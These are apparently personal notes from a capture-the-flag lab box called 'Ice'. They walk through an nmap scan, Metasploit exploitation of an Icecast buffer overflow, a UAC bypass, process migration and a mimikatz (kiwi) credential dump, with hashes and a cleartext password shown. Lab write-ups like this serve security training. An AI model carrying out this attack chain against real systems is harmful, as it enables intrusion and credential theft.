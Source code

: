 # Ice Notes
---

# My IP = 10.8.19.163

# Target IP = 10.10.146.142
___

1.  Scan the target with NMAP:

> fping 10.10.146.142

> 10.10.146.142 is alive

> nmap -sC -sV --script vuln -A 10.10.146.142 | tee Ice.nmap

	NMAP Results:

		135/tcp   open  msrpc        Microsoft Windows RPC
		139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
		445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
		3389/tcp  open  tcpwrapped
		5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
		8000/tcp  open  http         Icecast streaming media server
		|       Slowloris tries to keep many connections to the target web server open and hold
		|       them open as long as possible.  It accomplishes this by opening connections to
		49152/tcp open  msrpc        Microsoft Windows RPC
		49153/tcp open  msrpc        Microsoft Windows RPC
		49154/tcp open  msrpc        Microsoft Windows RPC
		49158/tcp open  msrpc        Microsoft Windows RPC
		49159/tcp open  msrpc        Microsoft Windows RPC
		49160/tcp open  msrpc        Microsoft Windows RPC

2. RDP is on port 3389.

3. Icecast service on port 8000. Vulnerable with CVE-2004-1561 buffer overflow and can get a meterpreter shell through metasploit.

4. Used exploit/windows/http/icecast_header in metaspoit. Shell gained.

> getuid - Dark-PC

> pwd - C:\Program Files (x86)\Icecast2 Win32

> getsystem - Failed

Check processes running as admin.

> ps -a

Try to gain privileged access by meterpreter commands.

> run post/multi/recon/local_exploit_suggester

Results:

	[*] 10.10.146.142 - Collecting local exploits for x86/windows...
	[*] 10.10.146.142 - 31 exploit checks are being tried...
	[+] 10.10.146.142 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
	[+] 10.10.146.142 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
	[+] 10.10.146.142 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
	[+] 10.10.146.142 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
	[+] 10.10.146.142 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
	[+] 10.10.146.142 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
	[+] 10.10.146.142 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
	[+] 10.10.146.142 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
	[+] 10.10.146.142 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

5. Used bypass_eventvwr in Metaspoit:

> background sessions 2.

> set lhosts and port, run exploit/windows/local/bypassuac_eventvwr.

New Meterpreter session created. 

Migrated a NT/Authority System service spoolsv.exe

> migrate -N spoolsv.exe

6. Load mimikatz into the meterpreter shell

> load kiwi

7. Expands help menu to add kiwi commands that are for password manipulation.

Interested in the command "creds_all".
	

>
	--------  ------   --                                ----                              ----
	Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

	wdigest credentials
	===================

	Username  Domain     Password
	--------  ------     --------
	(null)    (null)     (null)
	DARK-PC$  WORKGROUP  (null)
	Dark      Dark-PC    Password01!

	tspkg credentials
	=================

	Username  Domain   Password
	--------  ------   --------
	Dark      Dark-PC  Password01!

	kerberos credentials
	====================

		Username  Domain     Password
		--------  ------     --------
		(null)    (null)     (null)
		Dark      Dark-PC    Password01!
		dark-pc$  WORKGROUP  (null)
...

8. Go through various meterpreter help commands.